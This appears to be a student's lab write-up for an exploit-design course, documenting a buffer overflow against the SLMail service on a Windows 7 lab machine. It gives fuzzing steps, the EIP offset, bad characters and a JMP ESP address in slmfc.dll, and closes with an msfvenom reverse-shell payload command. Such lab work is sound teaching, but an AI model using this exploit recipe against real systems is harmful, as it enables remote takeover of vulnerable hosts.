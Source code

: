 ZEIT8042: Introduction of Exploit Design.
Construct buffer overflow to exploit the system.
Later, DEP(enabled) environment also exploited by using ROP (Return Oriented Programming)

Environment: Kali Linux 2021.2 for attacking machine: 192.168.72.136 | 134
	          Window 7 SP1: Victim Machine: 192.168.72.137 | 133: 32 bits 


################################################

Step-By-Step Procedure for developing the Shellcode:

###############################################



(1)	./buffer – fuzz.py -> executed (check if EIP could be buffer-overflow or not!)
ESP = 023FA128 … (AAA ….) only ‘A’ send out
EIP = 41414141 (Achieved)

(2)	./buffer – fuzz – pattern.py
ESP = 022EA128 (Dj0Dj1Dj...)

In ID (Immunity Debugger): after attaching the SLMail application.
Kali Linux MC: find pattern_create
	Locate pattern_create
O/P: /user/bin/msf-pattern_create
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb
Now execute this:
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb  - l 2700
O/P: Aa0Aa1…
-> Copy this: “(string as buffer…)” and put it in our buffer-fuzz-pattern.py file.
	Run our buffer-fuzz-pattern.py file from Kali M/C when ID is running at Win7 M/C with SLMail application attached. 
	ID “access violation…. [39694438]… found”
	Go back to Kali and find out pattern_offset
Kali: locate pattern_offset
	O/P: /user/bin/msf-pattern_offset
		/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb
	Now run in Kali M/C.
Kali M/C:
/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb – q 39694438
O/P: [*] Exact match at offset 2606

(3)	./buffer-fuzz-offset.py

Buffer = “A” * 2606 + “B” * 4 + “C” * 290  create a 2900 bytes
and check the EIP resistor if it is ‘BBBB’ or ‘42424242’ means our offset is correct.

	Run the program from Kali (./buffer-fuzz-offset.py)
	Run ID in Win7 machine where SLMail is attached with it.
O/P at ID is:
	ESP: full of ‘CCCCCC….’
	EIP: 42424242
	Means OFFSET ‘2606’ is correct to reach EIP resistor.
Now, increase our buffer size to 3500 bytes using more ‘C’  ./buffer-fuzz-C.py

(4)	./buffer-fuzz-badchars.py

We need to find bad characters from the file as it will make the output out of order. For this reason, construct a bad char byte array. It is done from ID in win Win7 M/C
	!mona bytearray 
O/P is bytearray.txt in the ID folder. 
	Copy the byte contexts from bytearray.txt file and create a .py file as buffer-fuzz-badchars.py
	In this file, include the bytearray as variable badchars = …… and ‘buffer’ variable looks like in the following:
Buffer = “A” * 2606 + “B” * 4 + badchars
	Now run this .py from Kali Linux M/C and check this in ID on Win7 M/C after attaching the SLMail application. 
	Now ECX resistor show  illegal command…. AAA… click it and follow in dump. 
O/P: (ECX 025A9ECA ASCII “………. AAAA……”)
	In the DUMP window O/P check the contents after
42 42 42 42 01 02 03 04 05 06 07 08 09 29 20

After 09, it should be 0a 0b… rather 29 20 
So I/P character and O/P character have discrepancies. 
It means OA is bad character.
So remove this from I/P file  means buffer-fuzz-badchar.py file delete the ‘OA’ file from the badchar variable and save it. 
	Do the previous process again and run it.
	And find out ‘\X0D’ has another bad character.
	‘\X00’ also a bad character.
	So from onwards, we have to remember to exclude ‘\X00’, ‘\X0A’ and ‘\X0D’ characters. 

(5)	./buffer-fuzz-C.py (check if EIP’s particular position could be determined)
ESP = 0226A128 (CCCC….)
EIP: 42424242 (Achieved)
(6)	Find the memory address of JMP ESP.
	In the ID: search for >command>JMP ESP (Find Command Windows)
	The OP code for JMP ESP is ‘FFE4’ means “\XFF\XE4”
	Run 
!mona find -s “\XFF\XE4” – m slmfc.dll
	Why is slmfc.dll, why not ntdll.dll?
-	Because .dll module should be ASLR and REBASE false. In case of ntdlll.dlll  both are true.
-	In shellcode execution we need fixed memory address which will not change at this. This is vital for our shellcode executed process.
O/P: 0X5F4A358F
	0X5F4B11E3
…
19 points found.

I choose OX5F4A358F as it has no bad characters and ASLR & REBASE are false. 
	SLMFC.DLL modules.

	Now reconstruct or update our buffer code.
o	In buffer-fuzz-jmp-esp.py file.
Buffer = “A”*2606+”\X8F\X35\X4A\X5F”+”C”*(3500-2606-4)

As we are using Intel machine and it is little endian, addresses are in reverse order. 
	Now run the program ./buffer-fuzz-jmp-esp.py 
Against ID(Win 7 M/C) > SLMail application attached to it.

ESP = 019CA128    ASCII “CCCCC….”
EBP = 41414141
EIP = 019CA2D6

On the stack dump: O/P is 
019CA11C	41414141	AAAA
019CA120	41414141	AAAA
019CA124	5F4A358F	SLMFC.5F4A3585	 A
019CA128	43434343			 B	
019CA12C	43434343

(A)	It is important (0X019CA124) memory location contain string (5F4A358F), which in actually a memory address that stack do not consider. It’s job in when EIP resistor have this input it see whether it is a legitimate address or not? If not ‘access violation’ or jump to that location. When it jump to that location, it found ‘JMP ESP’ instruction or op code of “\XFF\XEA”. 
(B)	To execute the instruction it go to the stack pointer at (0X19CA128) memory location and fetch the contents. If we put our exploit here then it will execute. In many case, “\X90”: NOP (no operation) op code use to direct the shellcode execution location. 
Next the shellcode execution.

(7)	Shellcode execution.

On the Kali Linux M/C execute following command to get the reverse shell of Windows 7 M/C:

	msfvenom -p windows/shell_reverse_tcp LHOST=<attack m/c IP> LPORT=<port#> -f c -a x86 –platform windows -b “\X00\X0A\X0D” -e X86/shikata_ga_nai
	Copy the O/P of this command and put it in the clipboard.



Youtube Link: https://www.youtube.com/watch?v=j-K0jX0vgkI&ab_channel=AhasanAnowar
